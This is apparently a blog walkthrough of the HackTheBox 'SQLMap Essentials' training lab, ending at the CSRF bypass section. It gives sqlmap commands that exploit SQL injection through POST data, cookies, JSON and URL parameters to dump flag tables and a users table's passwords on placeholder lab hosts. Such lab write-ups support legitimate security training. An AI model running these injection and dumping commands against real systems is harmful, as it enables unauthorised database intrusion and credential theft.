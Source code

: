 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet, HackTheBox]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

While I wait for the final skill assessment payload to get the flag which is taking a little too long I decided to write this walkthrough. It is among the labs I enjoyed much during the Bug Bounty Path.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


1. `What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

    sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2
    


From the command:


`--data - speecifies that the HTTP data provided should be sent in a POST request.`

`id=*1 - This is the parameter of interest. The asterisk is a custom injection marker.`
  
`--batch - allows the running of the command without any user input.`

`--dump - displays data from a specified database table`

`-T - specifies database table.`



2. `What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

    sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3


From the command:

  `--cookie - specifies the HTTP cookies that should be sent with the POST requests.`



3. `What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


    sqlmap -r req.txt  --batch --dump  -T flag4 

While it is applicable in this lab, we may also use the following command.

    sqlmap -u 'http://SERVERIP:PORT/case4.php'  --data={'"id":1'} --batch --dump  -T flag4

    

# Attack Tuning

Sqlmap comes right off the bat as a very strong tool, though it is capable to do more with some tuning by using flags that increase the accuracy of your scan. These may include flags for Level/Risk, Status Codes, Text and Techniques etc.

In this section we will use some of the above-mentioned flags that will dig deeper in our scans to achieve our goals. Follow me as we do it.

Questions

1. `What's the contents of table flag5? (Case #5) `

This challenges indicaes an OR SQLi vulnerability for the parameter 'id'. For this we will have to use the Level/Risk flags by raising the risk level. This is done because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content. 

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5

    sqlmap -u http://SERVERIP:PORT/case5.php?id=1 -T flag5 --no-cast --dump --batch --risk 3 --level 5 -dbs testdb -dbms MYSQL


From the command:

  `--no-cast - This flag ensures that you get the correct content.` 
  
  `--risk - [1-3]  extends the risk of causing problems at the target side (i.e., risk of database entry loss or denial-of-service).`
  
  `--level - [1-5] extends  boundaries being used, based on their expectancy of success (i.e., the lower the expectancy, the higher the level).`
  
  `--dbs - The database in question.`
  
  `--dbms - The underlying Database schema being used.`



2. `What's the contents of table flag6? (Case #6)`

The challenge has a vulnerable parameter col. This challenge requires the use of the prefix flag.

    sqlmap -u 'http://SERVERIP:PORT/case6.php?col=id' -T flag6 --dump --batch --risk 3 --level 5 --prefix='`)'

From the command:

  `--prefix -  used to specify a prefix that will be added to the payloads sent by SQLmap during its testing process`

  

3. `What's the contents of table flag7? (Case #7)`

The challenge has a vulnerable parameter at id and it is vulnerable using a UNION Query based technique. This means that we have to use the Union flag.

    sqlmap -u 'http://SERVERIP:PORT/case7.php?id=1' -T flag7 --dump --batch --risk 3 --level 5 --union-col=5

From the Command:

  `--union-col=5 - From the provided exercise we can manually count the columns in the table, so we include that in the command`

  

# Database Enumeration

Database enumaration requires the knowledge of how to use flags in your command. The `man sqlmap` and `sqlmap --help` can be of help with this.

Questions

1. `What's the contents of table flag1 in the testdb database? (Case #1)`

This challenge requires to know the names of the Database containing the table in question and the Database schema type being used

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' -T flag1 --dump --batch --risk 3 --level 5 --dbms MYSQL -D testdb
    


# Advanced Database Enumeration

Question

1. `What's the name of the column containing "style" in it's name? (Case #1)`

After looking into the sqlmap manual page we should now know what flag to use in order to get contents of the 'style' column

    sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --batch --search -C "style"

From the command: 

  `search -C - Used to search for databases, tables, and columns of interest. The -C flag represents columns.`

  

2. `What's the Kimberly user's password? (Case #1)`

        sqlmap -u 'http://SERVERIP:PORT/case1.php?id=1' --dump --batch --columns -C name,password -T users

 From the command:

  `column - Lists the columns specified`

  

# Bypassing Web Application Protections

Questions

1. ` What's the contents of table flag8? (Case #8) `
   
This challenge indicates the need for csrf token. So we open up BurpSuite and capture the token or we can use the web dev tools for that.






